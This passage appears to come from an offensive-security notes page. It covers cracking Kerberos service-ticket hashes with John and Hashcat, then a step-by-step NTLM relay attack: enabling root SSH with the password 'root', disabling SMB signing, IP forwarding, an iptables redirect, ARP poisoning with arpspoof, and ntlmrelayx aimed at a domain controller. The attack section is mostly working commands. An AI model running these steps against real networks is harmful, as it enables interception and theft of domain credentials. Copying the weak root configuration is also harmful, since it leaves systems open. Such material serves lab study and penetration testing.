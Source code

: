 4. Use Hascat/John to decrypt the hash.
```bash
# John
john --wordlist=<wordlist> <hash_file>

# Hashcat
hashcat -m 13100 <hash_file> <wordlist>
```
#### NTLM Relay
###### Preparation

1. Configure SSH server on the attacker.
```bash
apt install openssh-server
nano /etc/ssh/sshd_config -> PermitRootLogin yes
service ssh start
passwd root -> pass:root
```

2. Disable SMB Signing, on both Domain Controller and Domain Members by adding the following lines to the `smb.conf` file.
```bash
# On the Domain Controller
server signing = disabled
# On the Domain Member
client signing = disabled
```

3. Apply the changes by reloading the Samba configuration.
```bash
/usr/local/samba/bin/smbcontrol all reload-config
```

4. Activate Packet forwarding in the Kernel. IP forwarding needs to be enabled otherwise, the attacker's machine will drop the packets not containing its IP address as the destination. 
```bash
sysctl net.ipv4.ip_forward=1
```

5. Changes the destination IP address of the packet to the attacker's IP address. At this point, the attacker is in the middle and receives the packets destined for the SMB server. So what do we do? We change the destination IP address to our IP so that our SMB server running in the background can start relaying our SMB messages.

**NOTE:** Add port 445 (SMB) to improve the filter

```bash
iptables -t nat -A PREROUTING -d 192.168.122.10 -i eth0 -p tcp -m tcp -j DNAT --to-destination 192.168.122.50
```

**Useful commands**
```bash
# List NAT rules
iptables -t nat -L
# Flush NAT rules
iptables -t nat -F
``` 
##### Attack
1. Poison the ARP tables of the Domain Member (DM) and prepare the attacker to relay SMB messages.
```bash
# ARP Poisoning attack
arpspoof -i eth0 -t 192.168.122.20 192.168.122.10 > /dev/null 2>&1 & 

# Prepare attacker to relay all messages received to the DC
ntlmrelayx.py -smb2support -t 192.168.122.10 -i
```
